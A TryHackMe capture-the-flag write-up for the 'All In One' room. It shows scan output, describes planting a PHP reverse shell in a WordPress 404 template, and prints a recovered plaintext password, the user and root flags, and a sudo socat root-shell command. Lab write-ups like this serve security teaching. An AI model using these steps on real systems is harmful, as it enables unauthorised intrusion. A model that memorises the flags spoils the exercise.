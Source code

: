 # All In One
> Gaurav Raj | TryHackMe

## Nmap Scan
```
[elliot@archlinux]  allinone nmap -sC -sV -A -oN nmap.log 10.10.207.102
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-10 14:04 IST
Nmap scan report for 10.10.207.102
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.82.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.76 seconds
[elliot@archlinux]  allinone 

```

## Gobuster Scan
```
[elliot@archlinux]  allinone cat gobuster.log      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:            http://10.10.207.102
[+] Method:         GET
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.1.0
[+] Timeout:        10s
===============================================================
2020/12/10 14:06:17 Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403)        
/.htpasswd (Status: 403)   
/.htaccess (Status: 403)   
/index.html (Status: 200)     
/server-status (Status: 403)  
/wordpress (Status: 301)     
/hackathons (Status: 200) 
===============================================================
2020/12/10 14:09:03 Finished
===============================================================
[elliot@archlinux]  allinone 

```

## HTTP Enumeration

Found `Wordpress` Blog in `/wordpress` directory and hints or creds on `hackathons` directory encoded with `Vigenère Cipher` with key `KeepGoing`

Got Access to the wordpress admin panel

## Reverse Shell
Downloaded `php-rev-shell.php` from pentest monkey github, modified it, then head to the wordpress theme editor section and edited the `404.php` template and place the `shell.php` Content in there, then tried to access a no-existing page with rendered out the `404.php` and got a reverse shell.

### Escalating as user
after getting the reverse shell as `www-data` tried to cat out the user flag but permission denied, then got a `hint.txt` file which was readable which contains
```
Elyana's user password is hidden in the system. Find it ;)
```
used this command to find out the result

`find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"`

```
bash-4.4$ find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"
<e f 2>&1 | grep -v "Permission" | grep -v "No such"
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
```

## User Flag
```
bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
bash-4.4$ su elyana
su elyana
Password: E@syR18ght

bash-4.4$ id
id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
bash-4.4$ cat /home/elyana/user.txt
cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

## Privilege Escalation
```
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
bash-4.4$ sudo socat stdin exec:/bin/sh
sudo socat stdin exec:/bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@elyana:~# cat /root/root.txt | base64 -d
cat /root/root.txt | base64 -d
cat /root/root.txt | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

## Other Ways
- LFI Vulnerable Site
- Crontab
- Lxd
- upload `shell.php` as `plugin` on wordpress
- generate metasploit payload